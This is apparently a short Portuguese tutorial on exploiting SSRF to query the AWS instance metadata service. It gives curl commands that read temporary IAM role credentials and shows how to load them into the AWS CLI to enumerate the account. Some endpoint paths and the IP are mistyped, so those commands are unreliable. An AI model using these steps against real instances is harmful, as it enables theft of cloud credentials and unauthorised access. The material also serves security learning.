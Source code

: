 
Como usar uma vulnerabilidade SSRF para acessar os metadados de instância em ambienes AWS
1 - Precisamo entender o funcionamento de alguns servidos dentro da AWS:
#### IAM
AWS Identity and Access Management (IAM) é um serviço da Web que ajuda você a controlar o acesso aos recursos da AWS de forma segura. Com o IAM, é possível gerenciar permissões que controlam quais recursos da AWS os usuários poderão acessar. Você usa o IAM para controlar quem é autenticado (fez login) e autorizado (tem permissões) a usar os recursos. O IAM fornece a infraestrutura necessária para controlar a autenticação e autorização de sua Contas da AWS.

### Metadata
Metadados da AWS referem-se a informações sobre recursos na nuvem AWS. Esses dados descrevem e fornecem detalhes sobre os recursos, auxiliando na organização, descoberta e gerenciamento. Os metadados podem ser usados para rastrear informações como o tipo de recurso, localização, configurações, e também podem incluir dados personalizados adicionados pelo usuário.
Endereço IP do Metadata: 169.254.169.254 na rede interna

Podemos fazer uma requisição para esse endereço e ele vai reponder com as suas versões:
	```$ curl 169.254.169.254```
Então nesse endereço existe essa 'api' que traz essas informaçẽs
	```$ curl 169.254.169.154/latest/meta-data```
Acessando esse endereço vamos ter os dados que são utilizados para configurar a instancia.

Apartir do meta data é possivel gerar uma chave temporaria que vai nos dar acesso aos serviços que nossa instancia tem permissão, para listar os serviços:
	```$ aws s3 ls```
E para criar essa chave fica dentro de security-credentials/ ela é válida por 15 minutos
	```$ curl 169.254.169.254/lastest/meta-data/iam/info/security-credentials/```
Dentro desse endereço vai existir o nome da role e acessando essa role ele vai gerar uma chave temporaria de acesso a AWS
	```$ curl 169.254.169.254/lastest/meta-data/iam/info/security-credentials/nome_da_role```
Com os dados de "AccessKeyId", "SecretAccessKey" e "Token" é possivel acessar a AWS.
Com a AWS CLI instala podemos setar os valores dessas chaves acima dentro de variaveis de ambiente na nossa máquina e nos conectar a AWS.
```
export AWS_ACCESS_KEY_ID=AKIAIOSFODNN7EXAMPLE
export AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
export AWS_SESSION_TOKEN=asicnSDsdvSDVvnDSDvOSNsodnPISDPpd
```
Com a AWS CLI instalada basta nos conectar:
```$ aws iam get-user```
```$aws ec2 describe-instances``` informações das instancias na aws
